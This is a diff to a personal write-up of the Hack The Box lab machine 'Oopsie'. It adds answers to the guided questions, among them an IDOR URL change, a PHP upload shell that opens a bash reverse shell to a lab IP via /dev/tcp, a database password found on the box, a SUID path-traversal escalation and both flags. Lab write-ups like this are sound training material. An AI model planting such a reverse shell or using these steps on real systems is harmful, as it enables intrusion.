

Before and after one commit to marqsmat/cybersec, an R Markdown document (write-ups/htb.rmd): the page in a window 1100 px wide, from 13240 px down. Rendered offline with R 4.5, knitr and Pandoc, with nearby package versions.

Commit message:
Oopsie pwned

````diff
--- a/write-ups/htb.rmd
+++ b/write-ups/htb.rmd
@@ -741,26 +741,45 @@ Submit root flag: b91ccec3305e98240082d4474b848528.
 
 ### Oopsie `r fa("linux")`
 
-With what kind of tool can intercept web traffic?
+* With what kind of tool can intercept web traffic? proxy.
 
-What is the path to the directory on the webserver that returns a login page?
+* What is the path to the directory on the webserver that returns a login page? `/cdn-cgi/login`.
 
-What can be modified in Firefox to get access to the upload page?
+* What can be modified in Firefox to get access to the upload page? cookie.
 
-What is the access ID of the admin user?
+* What is the access ID of the admin user? 34322. The `id` URL parameter was `2`. Change it to `id=1`:
+```{bash eval=F}
+http://10.129.210.215/cdn-cgi/login/admin.php?content=accounts&id=1
+```
 
-On uploading a file, what directory does that file appear in on the server?
+Upload a `shell.php` to the webserver:
+```{php eval=F}
+<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.63/4242 0>&1'");?>
+```
 
-What is the file that contains the password that is shared with the robert user?
+* On uploading a file, what directory does that file appear in on the server? `/uploads`.
 
-What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?
+* What is the file that contains the password that is shared with the robert user? `db.php`.
+```{php eval=F}
+<?php
+$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
+?>
+```
 
-Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?
+The string `M3g4C0rpUs3r!` is the password for the `robert` user on the server.
 
-What SUID stands for?
+* What executable is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? `find / -group bugtracker 2>/dev/null`.
 
-What is the name of the executable being called in an insecure manner?
+* Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? `root`.
 
-Submit user flag:
+* What SUID stands for? `set owner user id`.
 
-Submit root flag:
+Execute `ltrace ./bugtracker` to see what it does.
+
+* What is the name of the executable being called in an insecure manner? `cat`.
+
+Provide `../root.txt` as the Bug ID and we obtain the flag.
+
+* Submit user flag: `f2c74ee8db7983851ab2a96a44eb7981`.
+
+* Submit root flag: `af13b0bee69f8a877c3faf667f7beacf`.
````
